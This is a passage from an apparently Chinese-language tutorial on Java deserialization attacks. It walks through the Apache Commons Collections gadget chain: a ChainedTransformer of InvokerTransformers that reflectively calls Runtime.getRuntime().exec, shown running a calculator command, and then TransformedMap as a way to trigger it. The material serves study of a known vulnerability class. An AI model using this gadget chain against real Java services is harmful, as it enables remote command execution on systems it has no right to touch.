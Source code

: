 ```java
      for (int i = 0; i < iTransformers.length; i++) {
          object = iTransformers[i].transform(object);
      }
      return object;
  }
  
}
```

**使用`ChainedTransformer`实现调用本地命令执行方法：**

```java
public static void main(String[] args) {
  	// 定义需要执行的本地系统命令
		String cmd = "open -a Calculator.app";
  
		Transformer[] transformers = new Transformer[]{
				new ConstantTransformer(Runtime.class),
				new InvokerTransformer("getMethod", new Class[]{
						String.class, Class[].class}, new Object[]{
						"getRuntime", new Class[0]}
				),
				new InvokerTransformer("invoke", new Class[]{
						Object.class, Object[].class}, new Object[]{
						null, new Object[0]}
				),
				new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
		};

		// 创建ChainedTransformer调用链对象
		Transformer transformedChain = new ChainedTransformer(transformers);
		
  	// 执行对象转换操作
  	transformedChain.transform(null);
}
```


通过构建`ChainedTransformer`调用链我们最终会使用`InvokerTransformer`来完成反射调用`Runtime.getRuntime().exec(cmd)`的逻辑。

## 利用`InvokerTransformer`执行本地命令

上面两个Demo为我们演示了如何使用`InvokerTransformer`执行本地命令，现在我们也就还只剩下两个问题：

1. 如何传入调用链。
2. 如何调用`transform`方法执行本地命令。

现在我们已经使用`InvokerTransformer`创建了一个含有恶意调用链的`Transformer`类的Map对象，紧接着我们应该思考如何才能够将调用链窜起来并执行。

`org.apache.commons.collections.map.TransformedMap`类间接的实现了`java.util.Map`接口，同时支持对`Map`的`key`或者`value`进行`Transformer`转换，调用`decorate`和`decorateTransform`方法就可以创建一个`TransformedMap`:

```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
  	return new TransformedMap(map, keyTransformer, valueTransformer);
}

public static Map decorateTransform(Map map, Transformer keyTransformer, Transformer valueTransformer) {
  	// 省去实现代码
}
```
